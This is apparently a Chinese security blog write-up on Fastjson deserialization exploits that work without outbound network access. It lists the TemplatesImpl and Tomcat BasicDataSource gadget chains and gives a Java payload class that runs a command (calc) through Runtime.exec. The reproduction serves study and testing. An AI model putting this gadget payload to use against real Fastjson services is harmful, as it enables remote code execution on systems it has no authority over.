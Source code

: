## 前言

在公司内部分享了Java回显及内存webshell的实现技术，有个同事问到Fatsjon是否可以实现回显。我当时想了一下，说不出网执行的情况肯定可以。但是....jndi注入的方式，还需要验证测试。

所以趁着有空，把Fastjson不出网的回显方式进行验证测试一下



## 漏洞利用

不出网的利用方式目前有两种POC，如下：

- com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl
- org.apache.tomcat.dbcp.dbcp2.BasicDataSource



第一种情况需要解析JSON的时候使用Feature才能触发，利用条件....不常见

第二种需要适用Tomcat环境，因为包含tomcat-dbcp.jar。不同的Tomcat版本使用的poc也不同：

- Tomcat 8.0以后使用`org.apache.tomcat.dbcp.dbcp2.BasicDataSource`
- Tomcat 8.0以下使用`org.apache.tomcat.dbcp.dbcp.BasicDataSource`



相比较而言，还是第二种情况出现的可能性更大。



### 复现

#### com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl



```java

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;

public class Test extends AbstractTranslet {
public Test() throws IOException {
        Runtime.getRuntime().exec(new String[]{"cmd", "/c", "calc"});
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) {
    }
    @Override
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] haFndlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```
